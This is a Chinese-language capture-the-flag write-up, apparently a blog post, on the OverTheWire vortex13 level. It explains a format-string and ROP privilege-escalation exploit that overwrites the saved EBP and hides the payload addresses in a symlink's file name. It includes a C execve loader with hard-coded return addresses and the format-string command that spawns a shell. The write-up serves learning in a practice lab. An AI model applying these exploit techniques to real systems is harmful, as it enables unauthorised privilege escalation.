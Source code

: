 ```yaml
---
title: vortex13
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/09/14/vortex13
  - /writeup/2014/09/14/vortex13/
tags:
  - OverTheWire
  - exploit
---
```

这道题和vortex12一样是猥琐流……

题目说了栈还是不能执行，所以还是ROP。但这里陷入了思维定式，主要还是因为vortex12的影响，让我觉得还要修改got。但ROP不只是修改got，直接改返回地址也是可以的；而vortex12里也可以在主线程里改返回地址，但那样没用因为主线程已经去掉euid了。这道题的输入限制在20个字符，如果想修改got几乎是不可能的了……

具体地，想要直接修改返回地址为system，还要用两次hn，但20个字符还是不够。于是我们通过修改vuln的stored ebp来跳回到我们指定的地址，接下来leave ret就可以返回我们提供的地址了

另一方面，由于一开始argv和envp都被清空了，所以我们不能把payload放到那里。最后发现，在栈的底部大概0xffffdff0附近，放的是程序的完整路径，链接文件也是链接的路径。这个没有被清空，所以还是猥琐流，把vortex13链接到一个文件名包含所需地址的链接文件即可

还有，argc会检查是否为0，所以我们只能另写一个loader，在里面execve，并且提供argv只包含NULL 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>

int main() {
    char *args[] ={NULL};
    char *envs[] ={NULL};
    char *prog = "./" "\x38\xde\xff\xff" "\xfe\xd0\xff\xff" "\x50\xe7\xe5\xf7" "\x93\x99\xe3\xf7" "\xf4\xdf\xff\xff" " sh";
    //printf("%s\n", prog);
    execve(prog, args, envs);
}
{% endhighlight %}

具体的文件名是：(addr of saved ebp in vuln) + (prev saved ebp) + (addr of system) + (ret addr for system) + (addr of string &#8220;sh&#8221;) + (string &#8220;sh&#8221;)

最后把vortex13链接到我们那个文件，执行 

<pre>$ ./noArg %57316x%116$hn</pre>

其中57316=0xdfe4，是我们的链接文件名的地址后4位, 得到shell
